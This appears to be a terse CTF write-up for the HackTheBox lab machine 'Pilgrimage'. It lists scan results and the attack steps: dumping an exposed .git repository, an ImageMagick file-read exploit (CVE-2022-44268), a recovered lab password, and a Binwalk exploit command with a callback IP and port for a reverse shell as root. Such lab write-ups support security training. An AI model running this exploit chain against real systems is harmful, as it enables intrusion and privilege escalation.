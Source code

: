 # Pilgrimage

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| pilgrimage | 10.10.11.219 | Easy       | Linux |

## NMAP

| HOST                          | PORT | PROTO | SERVICE | VERSION                |
| ----------------------------- | ---- | ----- | ------- | ---------------------- |
| 10.10.11.219 (pilgrimage.htb) | 22   | tcp   | OpenSSH | 8.4p1 Debian 5+deb11u1 |
| 10.10.11.219 (pilgrimage.htb) | 80   | tcp   | nginx   | 1.18.0                 |

## HEADERS

```
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0
Date: Fri, 07 Jul 2023 22:32:51 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://pilgrimage.htb/
```

## DIRECTORIES

- /.git/

## USERS

- emily : abigchonkyboi123

## NOTES

- shrinks images, can login/register
- nginx, php
- /.git/ directory
- `git-dumper http://pilgrimage.htb/.git/ dump` dumps the entire repository including all of the source code
- repository contains `magick` binary which is used to convert the image
- `./magick -version` outputs the version `7.1.0-49`
- https://github.com/voidz0r/CVE-2022-44268 clone it
- `/var/db/pilgrimage` sqlite db, found in `dashboard.php`
- `cargo run "/var/db/pilgrimage"`, upload the image
- download the resized image, `identify -verbose imagename`
- copy/paste hex output into cyberchef to get emily's password 
- `pspy64` reveals `/bin/bash /usr/sbin/malwarescan.sh` running as root user
- script uses `binwalk` to scan new files
- `Binwalk v2.3.2`
- https://vulners.com/exploitdb/EDB-ID:51249 `python3 exploit.py image.png 10.10.14.9 1234` 
- download on victim machine and copy to the folder `cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/binwalk_exploit.png` with a listener up
